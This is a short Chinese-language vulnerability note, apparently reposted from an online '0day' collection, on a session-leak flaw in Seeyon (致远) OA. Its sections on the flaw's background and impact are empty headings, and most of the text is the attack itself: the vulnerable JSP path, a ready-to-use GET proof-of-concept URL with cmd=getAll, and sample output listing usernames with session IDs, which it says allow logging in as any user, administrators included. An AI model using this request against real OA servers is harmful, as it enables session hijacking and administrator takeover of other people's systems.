 # 致远 OA Session 泄漏漏洞

> 原文：[http://book.iwonder.run/0day/致远 oa/6.html](http://book.iwonder.run/0day/致远 oa/6.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

##### 漏洞位置:

```
http://www.0-sec.org/yyoa/ext/https/getSessionList.jsp 
```

##### 漏洞详情:

```
当 cmd 参数为 getAll 时，便可获取到所有用户的 SessionID 利用泄露的 SessionID 即可登录该用户，包括管理员 
```

##### 请求方式:

```
Get 
```

##### POC:

```
http://www.0-sec.org/yyoa/ext/https/getSessionList.jsp?cmd=getAll 
```

##### 回显内容

```
weiph 9EA4F8832FA1C9BA99E3D13E2F01CAF7zhaozy F9244E7F1B8C39BB8919FAE8E19ED16A 
```

